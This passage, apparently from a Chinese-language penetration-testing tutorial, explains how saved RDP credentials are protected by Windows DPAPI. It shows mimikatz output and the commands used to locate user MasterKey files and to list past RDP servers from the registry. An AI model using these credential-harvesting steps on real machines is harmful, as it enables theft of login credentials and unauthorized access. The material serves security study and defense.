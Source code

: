 ```console
ServerNameUsedForAuthentication           [wstring] 'xx.xx.xx.xx'
RDmiUsername                              [wstring] 'administrator'

mimikatz(commandline) # exit
Bye!
```

### 获取 RDP 历史连接凭证和解密密钥

当用户在使用 RDP 连接远程主机时，如图勾选了“记住我的凭据”，那么连接远程主机时所使用的用户凭证会被保存在用户机器上，方便用户下一次进行连接：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/5a05a3c15b90e2f2.png)

远程桌面所保存的用户身份凭证使用 [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API) (Data Protection Application Programming Interface, 数据保护API) 进行加密，这是 Windows 操作系统中用于数据保护的接口，如：WIFI密码、VPN、IE浏览器、Chrome浏览器、Outlook邮箱等应用都使用了该方式进行加密。

DPAPI 在进行数据加解密的操作时需要使用一个 MasterKey 密钥，每个用户都对应一个 MasterKey，而 MasterKey 使用用户密码进行加密。MasterKey 文件在操作系统中的位置：

- 用户 MasterKey 文件保存路径：`%APPDATA%\Microsoft\Protect\<User_SID>\<Master_Key_File>`；
- 系统 MasterKey 文件保存路径：`%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User\<Master_Key_File>`。

```console
C:\Windows\System32>whoami /user

用户信息
----------------

用户名               SID
==================== ============================================
desktop-test\test    S-1-5-21-102229053-337446436-1419803206-1001

# 用户 Master Key Files 位置
C:\Windows\System32>dir /a /b /s %APPDATA%\Microsoft\Protect\
C:\Users\test\AppData\Roaming\Microsoft\Protect\CREDHIST
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\273001c6-c88c-422a-aecb-daa6f950f8d0
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\52c3460d-2e8b-4764-957c-57185d4d62b2
C:\Users\test\AppData\Roaming\Microsoft\Protect\S-1-5-21-102229053-337446436-1419803206-1001\Preferred
```

> 注：Master Key File 的同级目录还有一个 Preferred 文件，显示当前系统正在使用的 MasterKey 及其过期时间，默认 90 天有效期。

从注册表中查看 RDP 连接过的服务器：

```console
C:\Windows\System32> reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s

HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers\192.168.70.130
    UsernameHint    REG_SZ    DESKTOP-TEST\administrator
```

